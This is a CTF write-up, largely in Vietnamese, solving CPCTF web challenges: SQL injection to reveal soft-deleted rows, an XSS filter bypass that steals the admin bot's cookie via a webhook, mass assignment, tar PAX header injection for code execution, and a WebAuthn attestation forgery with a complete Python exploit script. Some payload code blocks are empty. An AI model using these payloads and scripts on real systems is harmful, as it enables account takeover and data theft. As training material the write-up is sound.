Hiện tượng này xảy ra do phần nội dung hiển thị trực quan và dữ liệu được sao chép vào clipboard có sự khác biệt (có thể do CSS che phủ hoặc JavaScript can thiệp vào sự kiện `copy`). Thay vì sao chép trên giao diện người dùng, ta mở DevTools (F12) để xem trực tiếp cấu trúc HTML trong DOM. Chuỗi flag thật sự được ẩn trực tiếp bên trong các phần tử HTML


> Flag: CPCTF{CH4R4C73R5_4L50_D159U153}
---

## Hidden Recipe (Level 2)

我が家に伝わる秘伝のレシピを間違えて消しちゃった……><  
[https://hidden-recipe.web.cpctf.space](https://hidden-recipe.web.cpctf.space/)

---

Phân tích mã nguồn phía máy chủ, model `Recipe` được định nghĩa như sau:

```go
type Recipe struct {  
    gorm.Model  
    Title string  
    Description string  
}  
```

Cấu trúc `gorm.Model` tích hợp sẵn trường `DeletedAt`, do đó model này sử dụng cơ chế **Soft Delete** của thư viện GORM.

Trong hàm khởi tạo dữ liệu mẫu (seed), chương trình tạo bản ghi công thức bí mật chứa flag rồi gọi lệnh xóa:

```go
secret := Recipe{Title: "Secret Recipe", Description: os.Getenv("FLAG")}  
db.Create(&secret)  
db.Delete(&secret)  
```

Với cơ chế Soft Delete, `db.Delete(&secret)` không thực sự xóa bản ghi khỏi database mà chỉ cập nhật mốc thời gian vào trường `deleted_at`:

```sql
UPDATE recipes SET deleted_at = CURRENT_TIMESTAMP WHERE id = ...;
```

Mặc định, các truy vấn SELECT của GORM sẽ tự động bổ sung điều kiện `WHERE deleted_at IS NULL` để ẩn các bản ghi đã xóa mềm.

Tuy nhiên, chức năng tìm kiếm lại mắc lỗ hổng **SQL Injection** do nối chuỗi trực tiếp giá trị tham số người dùng `q`:

```go
db.Where("title LIKE '%" + q + "%'").Find(&recipes)  
```

Khi ta nhập payload:

```text
' OR 1=1 --  
```

Truy vấn thực tế gửi đến cơ sở dữ liệu trở thành:

```sql
SELECT * FROM recipes WHERE (title LIKE '%%' OR 1=1 -- %') AND deleted_at IS NULL;
```

Dấu comment `--` đã vô hiệu hóa toàn bộ phần còn lại của câu lệnh, bao gồm cả điều kiện lọc `deleted_at IS NULL`. Kết quả là toàn bộ bản ghi đều được trả về, kể cả recipe bí mật đã bị soft delete:

- `Title`: Secret Recipe  
- `Description`: `<FLAG>`


> Flag: CPCTF{k!MChI_FR!ed_RiC3_w1th_MaY0nnA1s3}
---

## Let's remove script tag (Level 2)

XSSは危ないって聞いたので、`<script>`タグを除去しました。これで安全、ですよね？

被害者bot: [https://blog-admin.web.cpctf.space](https://blog-admin.web.cpctf.space/)  
問題サーバーは「問題起動」のセクションを確認してください。

---

Hàm lọc đầu vào của server chỉ đơn thuần xóa bỏ các cặp thẻ `<script>`:

```js
function sanitize(html) {  
    return html.replace(/<script[\s\S]*?<\/script>/gi, '');  
}
```

Tuy nhiên, các thẻ HTML khác vẫn được trình duyệt parse và thực thi bình thường. Do đó, ta hoàn toàn có thể kích hoạt JavaScript thông qua các thuộc tính sự kiện (event handler) như `onerror`, `onload`, `onclick`... trên các thẻ hợp lệ như `` hoặc `<iframe>`.

Sử dụng payload khai thác dựa trên thẻ `` kết hợp `onerror` để chuyển hướng cookie của admin bot về Webhook:

```html

```


Gửi bài viết và sao chép đường dẫn


Báo cáo URL bài viết cho admin bot


Kiểm tra webhook nhận được cookie phiên của admin chứa flag


> Flag: CPCTF{n0t_0nly_5cr1pt_t4g}

---

## Z (Level 2)

闇のSNS「Z」を始めてみたよ！ あのバッジ、かっこいいなぁ……  
[https://z.web.cpctf.space](https://z.web.cpctf.space/)

---

Kiểm tra mã nguồn backend xử lý cập nhật thông tin cá nhân:

```ts
type ProfileUpdate = {  
    displayName: string;  
    bio: string;  
};

app.put("/api/me", async (c) => {
    const user = await getUser(c);
    if (!user) return c.json({ error: "Unauthorized" }, 401);

    const body: ProfileUpdate = await c.req.json();

    try {
        updateProfile(user.id, body);
    } catch {
        return c.json({ error: "Update failed" }, 400);
    }
});

function updateProfile(id: number, data: ProfileUpdate) {  
    db.update(users).set(data).where(eq(users.id, id)).run();  
}
```

Cần chú ý rằng `body: ProfileUpdate = await c.req.json()` chỉ là **type annotation** tĩnh của TypeScript ở giai đoạn compile-time, hoàn toàn không thực hiện validate cấu trúc dữ liệu JSON ở thời điểm runtime.

Do đó, nếu gửi thêm trường `"plan": "premium"` trong body:

```json
{  
    "displayName": "azaki1",  
    "bio": "",  
    "plan": "premium"  
}
```

Trường `plan` vẫn tồn tại trong object `body`. Hàm `db.update(users).set(data)` sẽ lấy toàn bộ các trường này và ghi đè vào bảng `users`. Đây chính là lỗ hổng **Mass Assignment**.

Sử dụng Burp Suite để chỉnh sửa body JSON của request cập nhật


Server thông báo cập nhật hồ sơ thành công


Truy cập khu vực thành viên Premium để lấy flag


> Flag: CPCTF{YOU_wRit3_TyP3ScRipt_aNd_eX3cuTE_JAV4scripT}
---

## tar me (Level 3)

静的サイトをデプロイできるサービスを作りました。Markdownと画像しかアップロードできないから安全です！

---

Hệ thống triển khai trang tĩnh bao gồm hai thành phần chính:
1. **API Gateway**: Chỉ kiểm tra phần mở rộng (extension) của tệp tin upload từ header `Content-Disposition`, đảm bảo không chứa chuỗi `..` và phải nằm trong whitelist (`.md`, `.png`, ...). Sau đó đóng gói tệp thành file nén tarball gửi sang builder.
2. **Builder Service**: Nhận tarball, giải nén toàn bộ nội dung vào thư mục làm việc và kích hoạt Eleventy (`npx @11ty/eleventy`) để build trang web. Builder tin tưởng hoàn toàn vào đường dẫn tệp tin sau khi giải nén từ tarball.

Lợi dụng kỹ thuật **PAX Extended Header Injection**: khi đóng gói file tar, nếu tên file chứa ký tự xuống dòng (`\n`), thư viện tar sẽ sinh thêm header mở rộng PAX. Ta có thể chèn một dòng định nghĩa đường dẫn ghi đè:

```text
27 path=eleventy.config.js
```

Kết quả là API Gateway vẫn nhận diện phần mở rộng kết thúc bằng `.md`, nhưng khi Builder giải nén tarball, tệp tin thực tế lại được ghi đè vào tệp cấu hình `eleventy.config.js`. Điều này cho phép thực thi mã tùy ý khi Eleventy khởi chạy


Truy cập website tĩnh đã build để lấy flag


> Flag: CPCTF{Nu11_byTe_Is_NOt_Just_a_C_ProB13M}

---

## Physical CTF (Level 5)

adminを物理的に襲わないとフラグは入手できないよ！  
[https://physical-ctf.web.cpctf.space](https://physical-ctf.web.cpctf.space/)

---

Thử thách yêu cầu vượt qua cơ chế xác thực vật lý **WebAuthn Physical Verification**. Sau khi chiếm được phiên đăng nhập của admin, server yêu cầu xác minh khóa bảo mật vật lý (physical security key) tại endpoint:

```http
POST /api/admin/verify/finish  
```

Ở bước này, server kiểm tra thiết bị phần cứng bằng cách so sánh thuộc tính `credential.Authenticator.AAGUID` với mã AAGUID cố định của admin key:

```text
c0ffee00-cafe-babe-dead-beef12345678  
```

Lỗ hổng nằm ở chỗ: server trích xuất trực tiếp giá trị `AAGUID` từ **attestation object do client gửi lên** mà không xác minh chuỗi chứng thư tin cậy (attestation chain). Do đó, attacker có thể tự tạo attestation object giả mạo (với `fmt: "none"`) và đưa vào mã AAGUID mong muốn mà không cần sở hữu khóa vật lý thực tế của admin.

Quy trình tấn công:
- **Bước 1**: Đăng ký một user thông thường với WebAuthn credential tự sinh (P-256 private key, credential ID ngẫu nhiên).
- **Bước 2**: Bắt đầu flow đăng nhập với `username=admin` tại `/api/login/security-key/begin` để server ghi nhận admin vào phiên.
- **Bước 3**: Hoàn tất đăng nhập bằng assertion được ký bằng khóa riêng của attacker, đính kèm `userHandle` hợp lệ nhận được từ bước 1 để chiếm quyền điều khiển phiên của admin.
- **Bước 4**: Gọi `/api/admin/verify/begin`, sau đó forge attestation object chứa `AAGUID = c0ffee00cafebabedeadbeef12345678` gửi lên `/api/admin/verify/finish` để hoàn tất kiểm tra vật lý và lấy flag.

```python
import base64
import hashlib
import json
import secrets
import sys
from typing import Any

import requests
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import ec

BASE = "https://physical-ctf.web.cpctf.space"
ADMIN_AAGUID = bytes.fromhex("c0ffee00cafebabedeadbeef12345678")


def b64u_encode(b: bytes) -> str:
    return base64.urlsafe_b64encode(b).rstrip(b"=").decode()


def b64u_decode(s: str) -> bytes:
    s += "=" * (-len(s) % 4)
    return base64.urlsafe_b64decode(s)


def cbor_uint(major: int, n: int) -> bytes:
    if n < 24:
        return bytes([(major << 5) | n])
    if n < 256:
        return bytes([(major << 5) | 24, n])
    if n < 65536:
        return bytes([(major << 5) | 25]) + n.to_bytes(2, "big")
    if n < 2**32:
        return bytes([(major << 5) | 26]) + n.to_bytes(4, "big")
    return bytes([(major << 5) | 27]) + n.to_bytes(8, "big")


def cbor_obj(x: Any) -> bytes:
    if x is False:
        return b"\xf4"
    if x is True:
        return b"\xf5"
    if x is None:
        return b"\xf6"

    if isinstance(x, int):
        if x >= 0:
            return cbor_uint(0, x)
        return cbor_uint(1, -1 - x)

    if isinstance(x, bytes):
        return cbor_uint(2, len(x)) + x

    if isinstance(x, str):
        b = x.encode()
        return cbor_uint(3, len(b)) + b

    if isinstance(x, (list, tuple)):
        return cbor_uint(4, len(x)) + b"".join(cbor_obj(v) for v in x)

    if isinstance(x, dict):
        out = cbor_uint(5, len(x))
        for k, v in x.items():
            out += cbor_obj(k) + cbor_obj(v)
        return out

    raise TypeError(f"unsupported type for CBOR: {type(x)!r}")


def cose_ec2_public_key(pubkey: ec.EllipticCurvePublicKey) -> bytes:
    nums = pubkey.public_numbers()
    x = nums.x.to_bytes(32, "big")
    y = nums.y.to_bytes(32, "big")
    return cbor_obj({
        1: 2,      # kty = EC2
        3: -7,     # alg = ES256
        -1: 1,     # crv = P-256
        -2: x,
        -3: y,
    })


def client_data_create(challenge_b64: str, origin: str) -> bytes:
    return json.dumps({
        "type": "webauthn.create",
        "challenge": challenge_b64,
        "origin": origin,
        "crossOrigin": False,
    }, separators=(",", ":")).encode()


def client_data_get(challenge_b64: str, origin: str) -> bytes:
    return json.dumps({
        "type": "webauthn.get",
        "challenge": challenge_b64,
        "origin": origin,
        "crossOrigin": False,
    }, separators=(",", ":")).encode()


def make_registration_payload(
    challenge_b64: str,
    origin: str,
    rp_id: str,
    cred_id: bytes,
    aaguid: bytes,
    privkey: ec.EllipticCurvePrivateKey,
) -> dict[str, Any]:
    pub = privkey.public_key()
    cose = cose_ec2_public_key(pub)

    rpidhash = hashlib.sha256(rp_id.encode()).digest()
    flags = bytes([0x41])  # UP + AT
    sign_count = (0).to_bytes(4, "big")

    auth_data = (
        rpidhash +
        flags +
        sign_count +
        aaguid +
        len(cred_id).to_bytes(2, "big") +
        cred_id +
        cose
    )

    attestation_object = cbor_obj({
        "fmt": "none",
        "attStmt": {},
        "authData": auth_data,
    })

    client = client_data_create(challenge_b64, origin)
    cred_id_b64 = b64u_encode(cred_id)

    return {
        "id": cred_id_b64,
        "rawId": cred_id_b64,
        "type": "public-key",
        "response": {
            "clientDataJSON": b64u_encode(client),
            "attestationObject": b64u_encode(attestation_object),
        },
    }


def make_assertion_payload(
    challenge_b64: str,
    origin: str,
    rp_id: str,
    cred_id: bytes,
    user_handle: bytes,
    privkey: ec.EllipticCurvePrivateKey,
    sign_count: int = 1,
) -> dict[str, Any]:
    client = client_data_get(challenge_b64, origin)
    client_hash = hashlib.sha256(client).digest()

    rpidhash = hashlib.sha256(rp_id.encode()).digest()
    flags = bytes([0x01])  # UP
    auth_data = rpidhash + flags + sign_count.to_bytes(4, "big")

    sig_base = auth_data + client_hash
    signature = privkey.sign(sig_base, ec.ECDSA(hashes.SHA256()))

    cred_id_b64 = b64u_encode(cred_id)
    return {
        "id": cred_id_b64,
        "rawId": cred_id_b64,
        "type": "public-key",
        "response": {
            "authenticatorData": b64u_encode(auth_data),
            "clientDataJSON": b64u_encode(client),
            "signature": b64u_encode(signature),
            "userHandle": b64u_encode(user_handle),
        },
    }


def expect_ok(r: requests.Response, step: str) -> None:
    if not r.ok:
        print(f"[-] {step} failed: {r.status_code} {r.text}")
        sys.exit(1)


def main() -> None:
    s = requests.Session()

    # 1) Register user thường bằng credential của mình
    username = "x" + secrets.token_hex(4)
    login_key = ec.generate_private_key(ec.SECP256R1())
    my_cred_id = secrets.token_bytes(32)

    print(f"[+] registering normal user: {username}")
    r = s.post(f"{BASE}/api/register/begin", json={"username": username})
    expect_ok(r, "register begin")
    reg_begin = r.json()["publicKey"]

    rp_id = reg_begin["rp"]["id"]
    my_user_handle = b64u_decode(reg_begin["user"]["id"])

    reg_payload = make_registration_payload(
        challenge_b64=reg_begin["challenge"],
        origin=BASE,
        rp_id=rp_id,
        cred_id=my_cred_id,
        aaguid=b"\x00" * 16,
        privkey=login_key,
    )

    r = s.post(f"{BASE}/api/register/finish", json=reg_payload)
    expect_ok(r, "register finish")
    print("[+] normal user registered")

    # 2) Begin login với username=admin
    print("[+] starting security-key login as admin")
    r = s.post(f"{BASE}/api/login/security-key/begin", json={"username": "admin"})
    expect_ok(r, "admin login begin")
    login_begin = r.json()["publicKey"]

    # 3) Finish login bằng credential của mình, nhưng có userHandle khác rỗng
    login_payload = make_assertion_payload(
        challenge_b64=login_begin["challenge"],
        origin=BASE,
        rp_id=rp_id,
        cred_id=my_cred_id,
        user_handle=my_user_handle,
        privkey=login_key,
        sign_count=1,
    )

    r = s.post(f"{BASE}/api/login/finish", json=login_payload)
    expect_ok(r, "login finish")
    print("[+] login finish ok")

    r = s.get(f"{BASE}/api/me")
    expect_ok(r, "me after login")
    me = r.json()
    print("[+] /api/me =", me)

    if not me.get("isAdmin"):
        print("[-] not admin; target may differ from provided source")
        sys.exit(1)

    # 4) Forge admin verification với AAGUID yêu cầu
    print("[+] starting admin verify")
    verify_key = ec.generate_private_key(ec.SECP256R1())
    verify_cred_id = secrets.token_bytes(32)

    r = s.post(f"{BASE}/api/admin/verify/begin")
    expect_ok(r, "admin verify begin")
    verify_begin = r.json()["publicKey"]

    verify_payload = make_registration_payload(
        challenge_b64=verify_begin["challenge"],
        origin=BASE,
        rp_id=rp_id,
        cred_id=verify_cred_id,
        aaguid=ADMIN_AAGUID,
        privkey=verify_key,
    )

    r = s.post(f"{BASE}/api/admin/verify/finish", json=verify_payload)
    expect_ok(r, "admin verify finish")

    print("[+] success")
    print(r.text)


if __name__ == "__main__":
    main()

```


> Flag: CPCTF{s!6nA7Ure_v4l1D_BUT_wHo_ar3_YoU?}
